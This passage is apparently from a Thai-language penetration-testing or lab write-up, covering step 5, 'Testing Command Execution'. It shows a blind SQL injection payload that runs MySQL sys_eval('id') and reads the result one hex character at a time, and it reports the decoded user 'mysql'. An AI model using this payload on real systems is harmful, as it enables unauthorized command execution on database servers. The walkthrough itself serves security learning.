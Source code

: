 <img src="./resources/53.png" alt="" style="width:80% !important;">

**5. Testing Command Execution:**

ทดสอบ command เพื่อ show ข้อมูล user

```bash
# command execution payload:
1' AND '{text}' = (select substr((select hex(select sys_eval('id'))),{index},1)) #

# Result
สำเร็จ ทำการ decode hex ออกมาได้ผลลัพท์ user ชื่อ mysql
```